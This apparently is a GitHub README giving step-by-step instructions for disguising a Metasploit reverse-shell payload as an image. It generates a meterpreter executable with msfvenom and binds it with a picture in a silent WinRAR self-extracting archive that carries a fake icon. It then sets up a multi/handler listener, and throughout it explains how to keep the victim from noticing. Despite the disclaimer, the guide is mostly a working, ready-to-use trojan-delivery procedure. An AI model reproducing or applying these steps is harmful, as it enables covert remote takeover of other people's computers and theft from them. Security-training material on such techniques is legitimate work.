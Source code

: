# 🚀 Binding an msfvenom Payload with an Image for Penetration Testing  
**⚠️ For authorized penetration testing purposes only! Unauthorized use is illegal and unethical.**

---

## 🛠️ Prerequisites

- **Operating Systems**:  
  - 🐧 **Kali Linux**: For payload generation and listener setup.  
  - 🖥️ **Windows OS**: For testing the payload delivery.  

- **Tools**:  
  - `msfvenom`: To generate the payload.  
  - `msfconsole`: To capture the reverse shell.  
  - **WinRAR**: To bind files into a single executable.  
  - **Image Editor** (e.g., GIMP, online converter): For creating `.ico` files.  

- **Required Files**:  
  - 🧩 `payload.exe`: The malicious file created with msfvenom.  
  - 🖼️ `icon.ico`: A custom icon to disguise the final file.  
  - 📸 `original_image.jpg`: The image that appears legitimate.

---

## ✍️ Steps to Bind msfvenom Payload with an Image  

### Step 0: 🛡️ Note: This payload only works on machine with security features *OFF* (firewall, Window real time protection, virus and threat protection etc. ) 

### Step 1: 🌐 Find Your IP Address and Choose a Port  
1. Open Kali Linux and find your IP address:  
   ```bash
   ip a
   ```  
   Locate the IP under the active network interface (e.g., `eth0` or `wlan0`).
   ![How to find IP address](https://github.com/user-attachments/assets/47e35044-d144-4555-bb6d-385b38387c41)


   **Why**:  
   The payload needs your IP to send the connection back.  

   **If not done**:  
   The payload cannot connect to your system.  

3. Choose a port:  
   Pick a port not already in use, like `4444` or `8080`. In my case I will use 192.168.163.74 as IP and 4444 as PORT

   **Why**:  
   Both the payload and listener must use the same port for communication.  

   **If not done**:  
   Connections won’t work if the port mismatches.

---

### Step 2: 🖼️ Create an `.ico` Icon File  

#### 1. **Convert to `.ico`**  
   - Using an **Online Converter**:✅ RECOMENDED
     - Upload the image to a service like [freeconvert.com](https://www.freeconvert.com/ico-converter).  
     - Download the `.ico` file.

   - Using **GIMP**:  
     - Open the image.  
     - Resize to 256x256.  
     - Go to `File > Export As` and save as `icon.ico`.  
     


   **Why**:  
   This step ensures the final executable looks like a harmless file.  

   **If not done**:  
   The file may display a generic app icon, raising suspicion.

---

### Step 3: 🛠️ Create the msfvenom Payload  

1. Run the following in Kali Linux:  
   ```bash
   msfvenom -p windows/meterpreter/reverse_tcp LHOST=<YOUR_IP> LPORT=<YOUR_PORT> -f exe -o payload.exe
   ```  
   change <YOUR_IP> and <YOUR_PORT>
   
   ![Screenshot 2024-11-20 135204](https://github.com/user-attachments/assets/4e61ff1f-b1f6-4dee-bb2c-ba7bff6d6b38)

  

   **Why**:  
   This creates the payload (`payload.exe`) to connect back to your listener.  

   **If not done**:  
   The attack will fail without a working payload.  

---

### Step 4: 📦 Bind the Payload with the Image Using WinRAR  

#### 1. **Prepare Files**  
   Move `payload.exe`, `original_image.jpg`, and `icon.ico` to your Windows machine.  

#### 2. **Configure WinRAR**  

- **Create an SFX Archive**:  
  - Select all the 3 files & Right-click the files → Select `Add to Archive`.
  - In the settings, check **Create SFX archive**.
  - ![Screenshot 2024-11-20 140511](https://github.com/user-attachments/assets/212f8121-87c9-487b-8419-64f821ee7df8)


- **Advanced Settings**:  
  - Navigate to the **Advanced tab** → Click **SFX Options**.  
  - ![Screenshot 2024-11-20 141016](https://github.com/user-attachments/assets/d34cf986-89d3-44b4-b80c-e256cbc22c30)

#### SFX Options:  
1. **Setup Tab**  
   - Enter the following under "Run after extraction":  
     ```bash
     image.jpg
     payload.exe
     ```
   - ![Screenshot 2024-11-20 140947](https://github.com/user-attachments/assets/23908794-15ce-43db-8bac-c0505693831a)


   **Why**:  
   Ensures the image opens first while the payload executes in the background.  

   **If not done**:  
   Only the payload runs, which may look suspicious.  

2. **Text and Icon Tab**  
   - Select `icon.ico` under **Load SFX icon from the file**.
   - ![Screenshot 2024-11-20 140940](https://github.com/user-attachments/assets/9a1dd537-9929-435b-8746-74acda7ebd01)


   **Why**:  
   Gives the file a legitimate appearance.  

   **If not done**:  
   The file may look suspicious with a default icon.  

3. **Modes Tab**  
   - Select:  
     - **Unpack to temporary folder**  
     - **Silent mode: Hide all**
   - ![Screenshot 2024-11-20 140952](https://github.com/user-attachments/assets/298d724e-8067-47fc-a27d-535bdc466a66)


   **Why**:  
   Prevents showing extraction or activity windows.  

   **If not done**:  
   The user may notice unexpected behavior.  

---

### Step 5: 🛡️ Set Up the Listener in Metasploit  

1. Open Metasploit on Kali Linux:  
   ```bash
   msfconsole
   ```  

2. Configure the listener:  
   ```bash
   use exploit/multi/handler  
   set payload windows/meterpreter/reverse_tcp  
   set LHOST <YOUR_IP>  
   set LPORT <YOUR_PORT>  
   exploit  
   ```
   ![Screenshot 2024-11-20 143017](https://github.com/user-attachments/assets/9f3995b8-71f2-4400-941e-909bf849191f)

   **Why**:  
   This captures the reverse shell connection from the payload.  

   **If not done**:  
   Even if the target runs the file, you won’t receive any connection.  

---

### Step 6: 🧪 Test the Payload  

1. Transfer the final file (e.g., `vulnImage.jpg`) to the Windows machine. 
![Screenshot 2024-11-20 143156](https://github.com/user-attachments/assets/e4f86713-d0f6-4063-89c2-74fac25df087)
2. Open the file: 

   - The image displays, ensuring legitimacy.  
   - In the background, the payload runs and connects back to your listener. 

🎉 Congratulation: You have successfully compromised a PC
![Screenshot 2024-11-20 144427](https://github.com/user-attachments/assets/edade0da-4a2d-4fec-a48d-69bc816866ff)


   **Why**:  
   Verifies that the binding and payload work as expected.  

   **If not done**:  
   You won’t know if the attack was successful.  

---

## ⚠️ Legal Disclaimer  

This guide is for **educational purposes only**. Use it responsibly and only with explicit authorization. Unauthorized use is illegal and unethical.  

---

If you have any issues, you can create a issue at ISSUE section.